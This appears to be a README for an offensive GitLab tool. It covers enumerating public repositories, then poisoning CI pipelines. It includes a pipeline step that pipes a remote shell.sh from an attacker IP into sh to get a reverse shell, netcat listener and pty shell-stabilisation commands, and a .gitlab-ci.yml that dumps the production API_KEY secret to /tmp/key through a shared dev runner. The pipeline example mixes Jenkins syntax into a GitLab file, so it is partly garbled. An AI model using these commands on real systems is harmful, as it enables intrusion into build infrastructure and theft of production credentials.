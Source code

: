 This tools helps in efficiently enumerating the publicly visible repos

Use the above script and Gitlab API for enumuration.

Donot change the file name "enumerator.py"

Note: Make sure to install the Gitlab pip package using pip3 install python-gitlab==3.15.0

=======================================
replace the below lines in the .gitlab-ci.yml  file to get the reverse shell

pipeline {
    agent any
    stages {
       stage('build') {
          steps {
              sh '''
                    curl http://10.50.3.65:8000/shell.sh | sh
                '''                 
              }             
          }
       }       
    }


=======================================
simple reverse shell.sh

Update the attacker_Ip and port for to make connection
in the attacker machine type this 

nc -lvn PORT

After the reverse connection is established stabilize the shell using python 

Type the below command in the pawned machine

python3 -c 'import pty; pty.spawn("/bin/bash")'

after executing the above python shell do "ctrl + z" #terminate the shell and execute the below command in the attacker machine to connect back to the victim

stty raw -echo; fg

=======================================

Extracting the Production API key

If gitlab runners are same in the prod and dev server then we can able to extract the prod API key using the dev server.

Let say if the main is protected, then we cant do commeit and merge to the main branch, if we can able to do commits in dev branch, if the dev branch is also using the same running which prod is running
then we can use the dev branch .gitlab-ci.yml file to extract the prod api key.

Replace the .gitlab-ci.yml file in the dev as below, the below command might create the key in tmp/key directory of dev server, while commiting the changes look for the pipelines and jobs wether running or pending and manual. If its manual run the job manually, it might triger the script to run.

=======================================

  stages:
  - test
  - deploy

test:
  stage: test
  script:
    - 'echo "Testing Application: ${CI_PROJECT_NAME}"'

production:
  stage: deploy
  when: manual
  script:
    - 'echo "Deploying to ${CI_ENVIRONMENT_NAME}"'
    - 'echo "${API_KEY}" > /tmp/key'
    - 'echo "Ready to use the API KEY"'
  environment:
    name: ${CI_JOB_NAME}
=======================================
